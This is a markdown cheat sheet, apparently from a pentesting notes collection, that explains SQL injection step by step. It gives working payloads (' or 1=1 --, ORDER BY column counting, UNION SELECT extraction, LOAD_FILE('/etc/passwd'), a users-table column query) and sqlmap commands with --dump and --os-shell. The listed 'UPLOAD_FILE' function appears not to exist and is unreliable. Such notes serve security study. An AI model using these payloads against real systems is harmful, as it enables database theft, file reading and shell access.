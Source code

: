 ﻿# Description

Vulnerability that allow the attacker to interfere with SQL queries.
Generally allows the attacker to retrieve data that should not be viewed or even modify/delete it.


# Usage
Find any input which will be part of a SQL Query

Inputs examples:
- Form field input
- URL parameter

In the input vulnerable to SQL injection, insert:

    ' or 1=1 --


Finishing the query with `;` instead of `--` will most likely end up throwing an error

# Exploitation

Step 1: Find out the number of columns fetched

    ' ORDER BY <num> --
Increment `<num>` until an error is thrown

Step 2: Display injected data

    ' UNION SELECT 1,2,3,...,<num> --

This inject "1", "2"... in the query's result.  
If you are manipulating a php page with an ID like `edit.php?id=1' UNION SELECT 1,2,3,4--`, you can change the id until your data is displayed

Step 3: Extract information

Once your data is displayed, switch from data injection to data extraction by replacing `UNION SELECT 1,2,3,4` with something like

    UNION SELECT @@version, user() ...

Useful functions:
- `@@version` Version of the SQL server
- `user()` Current user running the query
- `LOAD_FILE('/etc/passwd')` Loads a requested file
- `UPLOAD_FILE('<filepath>')` That could be used with XSS to upload a backdoor
- `UNION SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users'` Get the users table's column names (MySQL)

# Tool

## sqlmap
automatic SQL injection tool   
https://www.kali.org/tools/sqlmap/  
https://manpages.org/sqlmap

sqlmap goal is to detect and take advantage of SQL injection vulnerabilities in web applications.  
Once it detects one or more SQL injections on the target host, the user can choose among a variety of options to
- perform an extensive back-end database management system fingerprint,
- retrieve DBMS session user and database
- enumerate users
- password hashes
- privileges
- databases
- dump entire or user’s specific DBMS tables/columns
- run his own SQL statement
- read specific files on the file system and more.

### Usage

    sqlmap -u "<page with sql inj. vuln>" --cookie "<session cookie>"

Options:
- `--dump` SQL dump of the database
- `--os-shell` Prompt for an interactive operating system shell  
  Needs to know which web application language the web server supports
- `--sql-shell` Prompt for an interactive SQL shell
